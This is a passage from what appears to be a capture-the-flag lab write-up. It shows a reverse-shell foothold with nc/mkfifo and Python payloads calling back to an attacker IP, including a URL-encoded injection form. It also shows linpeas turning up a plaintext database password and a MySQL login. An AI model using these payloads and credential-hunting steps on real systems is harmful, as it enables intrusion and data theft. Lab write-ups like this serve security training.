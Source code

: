 We find out a way to obtain a reverse shell without parsing the `-e` option which may fail:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 31415 >/tmp/f
```

Finally after trying several payloads, the one that actually worked was a revshell using python:
```
export RHOST="10.10.16.6";export RPORT=31415;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
Url encoded to avoid issues
```
export%20RHOST%3D%2210%2E10%2E16%2E6%22%3Bexport%20RPORT%3D31415%3Bpython%20%2Dc%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22sh%22%29%27
```

After running linpeas, we find something interesting over passwd search:
```
$dbpass='SDofYmNYtc51';
$dbuser='phpmyadmin';
 
```

We try to find the service running and we have a firsttry hit:


```
$ service mysql status
* mariadb.service - MariaDB 10.3.39 database server
   Loaded: loaded (/lib/systemd/system/mariadb.service; enabled; vendor preset: enabled)
   Active: active (running) since Thu 2024-11-21 04:10:57 EST; 1h 27min ago
     Docs: man:mysqld(8)
           https://mariadb.com/kb/en/library/systemd/
  Process: 818 ExecStartPre=/usr/bin/install -m 755 -o mysql -g root -d /var/run/mysqld (code=exited, status=0/SUCCESS)
  Process: 829 ExecStartPre=/bin/sh -c systemctl unset-environment _WSREP_START_POSITION (code=exited, status=0/SUCCESS)
  Process: 840 ExecStartPre=/bin/sh -c [ ! -e /usr/bin/galera_recovery ] && VAR= ||   VAR=`cd /usr/bin/..; /usr/bin/galera_recovery`; [ $? -eq 0 ]   && systemctl set-environment _WSREP_START_POSITION=$VAR || exit 1 (code=exited, status=0/SUCCESS)
  Process: 995 ExecStartPost=/bin/sh -c systemctl unset-environment _WSREP_START_POSITION (code=exited, status=0/SUCCESS)
  Process: 998 ExecStartPost=/etc/mysql/debian-start (code=exited, status=0/SUCCESS)
 Main PID: 919 (mysqld)
   Status: "Taking your SQL requests now..."
    Tasks: 35 (limit: 1136)
   Memory: 89.0M
   CGroup: /system.slice/mariadb.service
           `-919 /usr/sbin/mysqld

$ mysql -h 127.0.0.1 -u phpmyadmin -p

```
